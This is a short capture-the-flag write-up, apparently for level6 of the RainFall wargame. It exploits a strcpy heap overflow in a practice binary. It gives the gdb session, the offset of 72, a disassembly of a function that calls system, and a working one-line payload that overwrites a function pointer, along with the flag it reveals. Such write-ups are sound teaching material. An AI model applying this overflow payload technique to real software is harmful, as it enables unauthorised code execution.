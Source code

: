 We have the executable that do :

	param_2 is the pointer char** av
	__dest is a string of size 64
	ppcVar1 alloc size for 4 pointers
	ppcVar1[0] = m
	set the 1rd arguement in __dest (param_2 + 4 == av + 1, the offset of char ** and int are not the same)
	ppcVar1[0], so m is run
> check the source.c file

strcpy is vuln to overflow we use a [pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) and we have an offset of 72

We check :

```sh
(gdb) run `python -c "print('\x90' * 72 + '\x11' * 4)"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level6/level6 `python -c "print('\x90' * 72 + '\x11' * 4)"`

Program received signal SIGSEGV, Segmentation fault.
0x11111111 in ?? ()
```
> OK

We're looking for the address to pass 

```sh
(gdb) disas n
Dump of assembler code for function n:
	0x08048454 <+0>:     push   %ebp
	0x08048455 <+1>:     mov    %esp,%ebp
	0x08048457 <+3>:     sub    $0x18,%esp
	0x0804845a <+6>:     movl   $0x80485b0,(%esp)
	0x08048461 <+13>:    call   0x8048370 <system@plt>
	0x08048466 <+18>:    leave
	0x08048467 <+19>:    ret
```

## Exploit
```sh
level6@RainFall:~$ ./level6 `python -c "print('\x90' * 72 + '\x54\x84\x04\x08')"`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
> EZ